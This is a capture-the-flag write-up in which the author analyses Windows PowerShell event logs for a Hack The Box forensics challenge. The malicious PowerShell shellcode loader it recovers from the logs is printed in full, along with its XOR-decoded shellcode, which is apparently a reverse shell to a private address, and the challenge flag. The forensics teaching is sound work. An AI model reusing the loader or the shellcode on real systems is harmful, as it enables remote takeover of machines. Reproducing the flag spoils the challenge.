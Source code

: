 # Puppeteer
### forensics | 300 points | 787 solves

## Description
Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000. a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

## First Impressions
We were provided with a zip file, containing a folder called Logs. 

![](images/puppeteer-logs.png)

These logs have a file extension of `.evtx`, which is a log file created in windows to record events on the system. I searched for the flag directly using `grep`, but looks like this challenge is a little more complicated than that.

## Solution

Being new to Windows forensics, I made two attempts at this challenge. The first one was to use a python script called `evtx_dump.py` that, as the name suggests, dumps the contents of the log file in XML format. I tried looking for stuff through this but quickly got overwhelmed with the amount of information in the logs. I figured I would need to look for interesting files to look into or a similar CTF challenge online.

And that's what I did. I luckily found a solution to a very similar challenge (also from Hack the Box!) called [Event Horizon](https://josh-vr.medium.com/hackthebox-event-horizon-forensics-challenge-writeup-b32839a3307d), written by Josh. The writeup provides a good introduction to Event Logs and the different log files that could have some information.

Based on the writeup, I checked the `Microsoft-Windows-PowerShell%4Operational.evtx` file in the Event Viewer. Looking through the logs, I found a long script, with this particular part standing out.

![](images/puppeteer-script.png)

```powershell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

It seems like two arrays `stage1` and the reverse of `stage2` are combined and each character is XORed with the hex `0xd1` or 209 in decimal. As I'm not very familiar with running scripts in Powershell, I took the relevant parts from this script and made a similar script in Python. I wasn't sure if the `$HVOASfFuNSxRXR` array and the XOR operation on it was of any significance, but I added it to the script anyways.

```python
stage1 = bytearray(b'\x99\x85\x93\xaa\xb3\xe2\xa6\xb9\xe5\xa3\xe2\x8e\xe1\xb7\x8e\xa5\xb9\xe2\x8e\xb3')
stage2 = bytearray(b'\xac\xff\xff\xff\xe2\xb2\xe0\xa5\xa2\xa4\xbb\x8e\xb7\xe1\x8e\xe4\xa5\xe1\xe1')

stage2.reverse()

something = bytearray(b'\x2d\x99\x52\x35\x21\x39\x1d\xd1\xd1\xd1\x90\x80\x90\x81\x83\x99\xe0\x03\xb4\x99\x5a\x83\xb1\x99\x5a\x83\xc9\x80\x87\x99\x5a\x83\xf1\x99\xde\x66\x9b\x9b\x9c\xe0\x18\x99\x5a\xa3\x81\x99\xe0\x11\x7d\xed\xb0\xad\xd3\xfd\xf1\x90\x10\x18\xdc\x90\xd0\x10\x33\x3c\x83\x99\x5a\x83\xf1\x90\x80\x5a\x93\xed\x99\xd0\x01\xb7\x50\xa9\xc9\xda\xd3\xde\x54\xa3\xd1\xd1\xd1\x5a\x51\x59\xd1\xd1\xd1\x99\x54\x11\xa5\xb6\x99\xd0\x01\x5a\x99\xc9\x81\x95\x5a\x91\xf1\x98\xd0\x01\x32\x87\x99\x2e\x18\x9c\xe0\x18\x90\x5a\xe5\x59\x99\xd0\x07\x99\xe0\x11\x90\x10\x18\xdc\x7d\x90\xd0\x10\xe9\x31\xa4\x20\x9d\xd2\x9d\xf5\xd9\x94\xe8\x00\xa4\x09\x89\x95\x5a\x91\xf5\x98\xd0\x01\xb7\x90\x5a\xdd\x99\x95\x5a\x91\xcd\x98\xd0\x01\x90\x5a\xd5\x59\x90\x89\x90\x89\x8f\x88\x99\xd0\x01\x8b\x90\x89\x90\x88\x90\x8b\x99\x52\x3d\xf1\x90\x83\x2e\x31\x89\x90\x88\x8b\x99\x5a\xc3\x38\x9a\x2e\x2e\x2e\x8c\x98\x6f\xa6\xa2\xe3\x8e\xe2\xe3\xd1\xd1\x90\x87\x98\x58\x37\x99\x50\x3d\x71\xd0\xd1\xd1\x98\x58\x34\x98\x6d\xd3\xd1\xd4\xe8\x11\x79\xd1\xc3\x90\x85\x98\x58\x35\x9d\x58\x20\x90\x6b\x9d\xa6\xf7\xd6\x2e\x04\x9d\x58\x3b\xb9\xd0\xd0\xd1\xd1\x88\x90\x6b\xf8\x51\xba\xd1\x2e\x04\xbb\xdb\x90\x8f\x81\x81\x9c\xe0\x18\x9c\xe0\x11\x99\x2e\x11\x99\x58\x13\x99\x2e\x11\x99\x58\x10\x90\x6b\x3b\xde\x0e\x31\x2e\x04\x99\x58\x16\xbb\xc1\x90\x89\x9d\x58\x33\x99\x58\x28\x90\x6b\x48\x74\xa5\xb0\x2e\x04\x54\x11\xa5\xdb\x98\x2e\x1f\xa4\x34\x39\x42\xd1\xd1\xd1\x99\x52\x3d\xc1\x99\x58\x33\x9c\xe0\x18\xbb\xd5\x90\x89\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xaf\x84\x99\x52\x15\xf1\x8f\x58\x27\xbb\x91\x90\x88\xb9\xd1\xc1\xd1\xd1\x90\x89\x99\x58\x23\x99\xe0\x18\x90\x6b\x89\x75\x82\x34\x2e\x04\x99\x58\x12\x98\x58\x16\x9c\xe0\x18\x98\x58\x21\x99\x58\x0b\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xac\xf9\x89\x90\x86\x88\xb9\xd1\x91\xd1\xd1\x90\x89\xbb\xd1\x8b\x90\x6b\xda\xfe\xde\xe1\x2e\x04\x86\x88\x90\x6b\xa4\xbf\x9c\xb0\x2e\x04\x98\x2e\x1f\x38\xed\x2e\x2e\x2e\x99\xd0\x12\x99\xf8\x17\x99\x54\x27\xa4\x65\x90\x2e\x36\x89\xbb\xd1\x88\x98\x16\x13\x21\x64\x73\x87\x2e\x04')

stage3 = bytearray(stage1 + stage2)

# Unpack Shellcode;
for i in range(len(something)):
	something[i] = something[i] ^ 0xd1;

#Unpack Special Orders!
for i in range(len(stage3)):
	stage3[i] = stage3[i] ^ 0xd1;
   
print(something)
print(stage3)
```

While the `something` array returned gibberish, `stage3` succesfully returns the flag for this challenge!

```bash
$ python3 sol.py
bytearray(b'\xfcH\x83\xe4\xf0\xe8\xcc\x00\x00\x00AQAPRH1\xd2eH\x8bR`H\x8bR\x18QVH\x8bR H\x0f\xb7JJM1\xc9H\x8brPH1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRH\x8bR AQ\x8bB<H\x01\xd0f\x81x\x18\x0b\x02\x0f\x85r\x00\x00\x00\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0\x8bH\x18PD\x8b@ I\x01\xd0\xe3VH\xff\xc9M1\xc9A\x8b4\x88H\x01\xd6H1\xc0A\xc1\xc9\r\xacA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88AXAX^YH\x01\xd0ZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9K\xff\xff\xff]I\xbews2_32\x00\x00AVI\x89\xe6H\x81\xec\xa0\x01\x00\x00I\x89\xe5I\xbc\x02\x00\x059\xc0\xa8\x00\x12ATI\x89\xe4L\x89\xf1A\xbaLw&\x07\xff\xd5L\x89\xeah\x01\x01\x00\x00YA\xba)\x80k\x00\xff\xd5j\nA^PPM1\xc9M1\xc0H\xff\xc0H\x89\xc2H\xff\xc0H\x89\xc1A\xba\xea\x0f\xdf\xe0\xff\xd5H\x89\xc7j\x10AXL\x89\xe2H\x89\xf9A\xba\x99\xa5ta\xff\xd5\x85\xc0t\nI\xff\xceu\xe5\xe8\x93\x00\x00\x00H\x83\xec\x10H\x89\xe2M1\xc9j\x04AXH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00~UH\x83\xc4 ^\x89\xf6j@AYh\x00\x10\x00\x00AXH\x89\xf2H1\xc9A\xbaX\xa4S\xe5\xff\xd5H\x89\xc3I\x89\xc7M1\xc9I\x89\xf0H\x89\xdaH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00}(XAWYh\x00@\x00\x00AXj\x00ZA\xba\x0b/\x0f0\xff\xd5WYA\xbaunMa\xff\xd5I\xff\xce\xe9<\xff\xff\xffH\x01\xc3H)\xc6H\x85\xf6u\xb4A\xff\xe7Xj\x00YI\xc7\xc2\xf0\xb5\xa2V\xff\xd5')
bytearray(b'HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}')
```

As of me typing this writeup after the challenge, I found [this article](https://www.sikich.com/insight/how-to-catch-powershell-script-attacks/) from Sikich that describes Powershell Script Attacks, including the scenario in this challenge under Script Block Logging.

Flag: `HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}`
